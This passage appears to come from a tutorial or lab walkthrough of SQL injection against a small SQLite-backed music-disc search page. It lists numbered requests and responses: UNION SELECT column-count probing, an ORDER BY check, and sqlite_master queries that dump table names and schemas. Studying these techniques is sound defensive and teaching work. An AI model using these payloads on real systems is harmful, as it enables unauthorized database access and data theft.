 RESPONSE 17

    SELECTs to the left and right of UNION do not have the same number of result columns

The table must have more than one column.

REQUEST 18 (injection in 'name' and 'title' = *)

    Pink Floyd' union select NULL, NULL --

RESPONSE 18

    SELECTs to the left and right of UNION do not have the same number of result columns

The table must have more than two columns.

REQUEST 19 (injection in 'name' and 'title' = *)

    Pink Floyd' union select NULL, NULL, NULL --

This time we don't get any error message, so the table must have 3 columns. We can confirm that with an additional request:

REQUEST 20 (injection in 'name' and 'title' = *)

    Pink Floyd' order by 4 --

RESPONSE 20

    1st ORDER BY term out of range - should be between 1 and 3

Now, we try to **enumerate all the tables of the database**. Remember that we are using SQLite specific commands (not valid for other DBMS):

REQUEST 21 (injection in 'name' and 'title' = title)

    Pink Floyd' union SELECT tbl_name FROM sqlite_master --

RESPONSE 21

    <h1> Encontrados los siguientes discos: </h1>
    
    <li>Animals</li>
    <li>Dark Side of The Moon</li>
    <li>Discs</li>
    <li>Users</li>
    <li>sqlite_sequence</li>

We have dumped the names of 3 tables: Discs, Users and sqlite_sequence.

No we will try to **enumerate the columns of each table**. Again, using SQLite specific commands:

REQUEST 22 (injection in 'name' and 'title' = title)

    Pink Floyd' union SELECT sql FROM sqlite_master --

RESPONSE 22

    <h1> Encontrados los siguientes discos: </h1>
    
    <li>Animals</li>
    
    <li>CREATE TABLE &#34;Discs&#34; (
    	`title`	TEXT,
    	`author`	TEXT,
    	`id`	INTEGER PRIMARY KEY AUTOINCREMENT
    )</li>
    